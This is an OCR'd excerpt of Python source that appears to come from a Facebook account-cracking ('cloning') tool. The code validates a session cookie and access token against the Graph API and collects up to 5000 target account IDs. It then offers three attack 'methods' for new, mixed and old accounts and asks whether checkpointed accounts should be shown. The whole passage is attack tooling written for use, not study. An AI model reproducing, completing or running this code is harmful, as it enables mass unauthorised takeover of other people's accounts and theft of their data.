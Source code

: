                 animation('\033[1;31m >> Your cookies has Been Expired ...');time.sleep(1)

                login()

        try:

                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cok}).json()

                name=(info['name'])

                print('\033[1;32m Welcome '+name)

                linex()

        except KeyError:
                animation('\033[1;31m >> Your cookies has Been expired ...');time.sleep(1)

                login()

        try:

                jum=int(input(' How many Ids Do You want to Clone : '))
                linex()

        except ValueError:

                linex()
                animation(' >> Put only digits not letters ')
                time.sleep(2)
                menu()

        if jum<1 or jum>5000:

                exit()

        ses=requests.Session()

        yz = 0

        for met in range(jum):

                yz+=1

                kl = input(f' [•] Enter Id {yz+0}: ')

                usrr.append(kl)

        linex()

        print(' All method working try 1 by 1 ')

        linex()

        print(' [1] Method 1 (for new ids) \n [2] Method 2 (for mix ids)\n [3] Method 3 (for old ids)')

        linex()

        mthd = input(' [•] Choose method: ')

        linex()

        print(' CP ids Visible? (y/n): ')
